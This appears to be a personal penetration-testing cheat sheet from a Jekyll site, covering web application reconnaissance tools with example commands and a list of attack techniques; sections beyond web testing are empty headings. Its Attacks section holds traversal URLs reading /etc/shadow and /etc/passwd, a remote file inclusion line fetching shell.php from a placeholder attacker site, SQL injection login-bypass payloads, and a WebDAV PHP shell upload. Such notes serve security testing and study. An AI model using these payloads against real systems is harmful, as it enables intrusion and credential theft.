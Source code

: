 ```yaml
---
layout: page
title: notes
permalink: /notes/
image: '/images/50.jpg'
---
```


{% include toc.html %}

* g
{:toc}

***

### Web Application Testing
#### Enumeration

• theHarvester.py: Identify subdomains, IP addresses, and email addresses associated with the target.
{% highlight sh %}
python3 theHarvester.py -d example.org -n -c -t -b google
{% endhighlight %}
• dig: Check the Domain Name System (DNS) information of the target.
{% highlight sh %}
~ dig kvdn.co a; @8.8.8.8
~ dig -x kvdn.co
{% endhighlight %}
• dirb: Mass scan for directories & sub-directories by bruteforcing.
{% highlight sh %}
~ dirb http://kvdn.co /usr/share/wordlists/dirb/common.txt
{% endhighlight %}
• gobuster: Another mass scanner for directories, taking a wordlist as input.
{% highlight sh %}
~ gobuster dir -u http://kvdn.co -w /usr/share/wordlists/dirb/common.txt
{% endhighlight %}
• nikto: Automated web enumeration tool, with a focus on finding vulnerabilities & misconfigurations.
{% highlight sh %}
~ nikto -h http://kvdn.co -C all -Plugins all
{% endhighlight %}
• wappalyzer: Node-based tool for identifying the CMS, framework, analytical tools. Find what stack the target is using.
{% highlight sh %}
~ wappalyzer http://kvdn.co
{% endhighlight %}
• Manual Enumeration: Check for what resources the application is loading, asset directories, javascript libraries and their versions, developer comments. Also worthwhile checking robots.txt, crossdomain.xml and clientaccesspolicy.xml (if they exist). Map out how the application works, and how users interact with it. Is the SSL certificate still valid? Do forms lack CSRF tokens, or is there anything in local storage to stop cross site attacks?

• <a href="https://github.com/urbanadventurer/WhatWeb" target="_blank">WhatWeb</a>: An alternative to wappalyzer, with far more information. Knowing the various technologies that the target employs is key to mapping out any target.
{% highlight sh %}
~ ./whatweb kvdn.co
{% endhighlight %}

• <a href="https://github.com/wapiti-scanner/wapiti" target="_blank">Wapiti</a>: A complete suite of tools, in one, for automating the assessment and identification of vulnerabilities in a web app.
{% highlight sh %}
~  wapiti -u http://kvdn.co -l 2
{% endhighlight %}

• <a href="https://github.com/maurosoria/dirsearch" target="_blank">DirSearch</a>: Powerfuk recursive path bruteforcing tool, which allows you to focus on a specific extension.
{% highlight sh %}
~ python3 dirsearch.py -u http://kvdn.co/ -e .php,asp,html
{% endhighlight %}
• wpscan: Automated vulnerability scanner for wordpress websites/blogs. Well equiped to pick up on exploitable plugins.
{% highlight sh %}
~ wpscan -url http://kvdn.co/ -enumerate p
{% endhighlight %}
• droopescan: Similar to wpscan, an automated vulnerability scanner for drupal applications.
{% highlight sh %}
~ droopescan scan -u $ip
{% endhighlight %}

• <a href="https://github.com/lightos/Panoptic/" target="_blank">Panoptic.py</a>: Automated search tool for common log and config files, through path traversal.
{% highlight sh %}
~ ./panoptic.py --url "http://kvdn.co/include.php?file=test.txt"
{% endhighlight %}

• <a href="https://github.com/hatRiot/clusterd" target="_blank">clustered.py</a>: Fingerprint any given web application to find it's version.
{% highlight sh %}
~ ./clusterd.py --fingerprint  -i http://kvdn.co
{% endhighlight %}

• <a href="https://github.com/lokifer/BlindElephant" target="_blank">BlindElephant.py</a>: Another tool similar to clusterd, solely dedicated to fingerprinting a web-app.
{% highlight sh %}
~ ./BlindElephant.py http://kvdn.co
{% endhighlight %}

• <a href="https://github.com/truerandom/crawleet" target="_blank">crawleet.py</a>: A more general web recon & exploitation tool which works with drupal, joomla, wordpress, and other CMS software.
{% highlight sh %}
~ python3 crawleet.py -u http://kvdn.co
{% endhighlight %}

• wfuzz: Web fuzzing tool dedicated to enumerating, and identifying possibly hidden pages.
{% highlight sh %}
~ wfuzz -c -z range,1-500 --hc 404 http://kvdn.co/FUZZ
{% endhighlight %}

• <a href="https://github.com/TheRook/subbrute" target="_blank">subbrute.py</a>: Fast, sub-directory recon tool if the scope is *.domain.tld
{% highlight sh %}
~ python3 subbrute.py kvdn.co
{% endhighlight %}

• <a href="https://github.com/s0md3v/Arjun" target="_blank">Arjun</a>: Bruteforce query parameters for any URL endpoints, with added support for POST-JSON/POST-XML.

• <a href="https://github.com/Sh1Yo/x8" target="_blank">x8</a>: Another tool similar to Arjun, that identifies hidden parameters in a given endpoint.
{% highlight sh %}
~ x8 -u "https://kvdn.co/" -w <wordlist>
~ x8 -u "https://kvdn.co/" -X POST -w <wordlist>
{% endhighlight %}

• <a href="https://github.com/tomnomnom/waybackurls" target="_blank">waybackurls</a>: Tool to search Wayback Machine for any historical snapshots pertaining to a *.domain

#### Attacks
• Does a path look like a file? Test for path traversal, remote file inclusion & local file inclusions:
{% highlight sh %}
http://kvdn.co/../../../../etc/shadow # path traversal to expose sensitive information

http://kvdn.co/vuln_page.php?file=http://attacker_site/shell.php # remote file inclusion to execute a shell on the target application

http://kvdn.co/preview.php?file=../../../../etc/passwd # local file inclusion to exposed sensitive information
{% endhighlight %}

• <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" target="_blank">Extensive File Inclusion Documentation (PayloadsAllTheThings)</a>

• Does a path look like a URL? Test for open redirection & server-side request forgery:
{% highlight sh %}
http://kvdn.co/example.php?url=http://malicious.example.com # open redirection to an external address
{% endhighlight %}

• Reflected XSS: Reflected malicious code within the client side. 

• DOM-Based XSS: Manipulating the document object model of a user's browser. 

• Stored XSS: Storing malicious code within the web application. Can be accessed by anyone, thus making it the most dangerous of the three.

• Avatars & File Uploads: SVGs can have XML embedded which can trigger SSRFs, and XXEs. Unsanitized file upload paths, can also be used to achieve a shell on the target.

• SQLi: Query all URL parameters, and forms, by sending ' " and ;
{% highlight sh %}
# boolean payloads to bypass authentication forms
2' or '1'='1
' or 1=1 --
a' or 1=1 --
" or 1=1 --
a" or 1=1 --
' or 1=1 #
" or 1=1 #
or 1=1 --
' or 'x'='x
" or "x"="x
') or ('x'='x
") or ("x"="x
' or username LIKE '%admin%
' or ( 1=1 and username='admin');
admin' --
%bf%27 or 1=1 --
{% endhighlight %}

• API Key Leaks: Look for hidden developer keys, which may be used to expose sensitive information. A helpful tool for finding leaks in the wild is <a href="https://github.com/momenbasel/KeyFinder" target="_blank">keyFinder</a>.

• Account Takeovers: Bad registration/authentication forms, might be loosely validating user input. A password reset form might allow you to specify a certain email for a given UID. CSRF can be exploited if there are no measures implemented. IDOR on API parameters, could allow someone to edit and create user profiles as they wish. Password tokens could also be generated, especially if the sequence is easily identifiable.

• CORS Misconfiguration: The same-origin policy might be incorrectly set, allowing the attacker to specify a custom origin for any request made to the target application.

• <a href="https://www.erasec.be/blog/client-side-path-manipulation/" target="_blank">Client Side Path Manipulation</a>

• <a href="https://github.com/nccgroup/singularity" target="_blank">Signularity</a>: A DNS rebinding tool, which allows an attacker to bypass the same-origin policy to pass arbitrary requests.

• Insecure Direct Object References: Access sensitive information, by tampering with endpoints that do not validate a user's privileges correcty. Example: A change email form, might use the $user_id as input, and does not validate the input whatsoever. UUID and GUID can also be easily used in the context of IDOR, as it is easily predictable. Try PUT requests where POST requests might be. Pass JSON values as arrays.

• <a href="https://github.com/codingo/NoSQLMap" target="_blank">NoSQLMap</a>: Automated NoSQL injection tool. Performs both syntax injections (breaking the query syntax), and operator injections which uses NoSQL query operators to manipulate queries.
{% highlight sh %}
# NoSQL injection fuzz queries
'"`{
;$Foo}
$Foo \xYZ
{% endhighlight %}

• <a href="https://github.com/swisskyrepo/SSRFmap" target="_blank">SSRFMap</a>: Auomated SSRF fuzzing tool, which takes a burp request alongside a set parameter. 

• <a href="https://github.com/kurobeats/fimap" target="_blank">fimap</a>: Another automated tool for identifying local and remote file inclusions.

• cadaver: Simple tool designed to allow the upload of a file to a web application with WebDav folders using the PUT method.
{% highlight sh %}
~ cadaver http://kvdn.co/dav/
dav:/dav/> put /path/to/php.shell
{% endhighlight %}

• <a href="https://github.com/P0cL4bs/kadimus" target="_blank">Kadimus</a>: Tool which allows an attacker to check, and exploit LFI vulnerabilities. Checks all the most likely paths for RCE and information disclosure.
{% highlight sh %}
~ kadimus --url http://kvdn.co
{% endhighlight %}

• XML External Entity Injection (XXE): Can be used to retrieve sensitive files/data, perform SSRF attacks. It's leveraged by tampering with an application's method of processing XML data.

***
### Network Testing & Infrastructure
#### Reconaissance
#### Exploitation

***
### Privilege Escalation
#### Linux
#### Windows

***
### Active Directory Attacks
#### Lateral Movement
### Cloud Testing
#### Azure
#### AWS
#### GCP
#### Kubernetes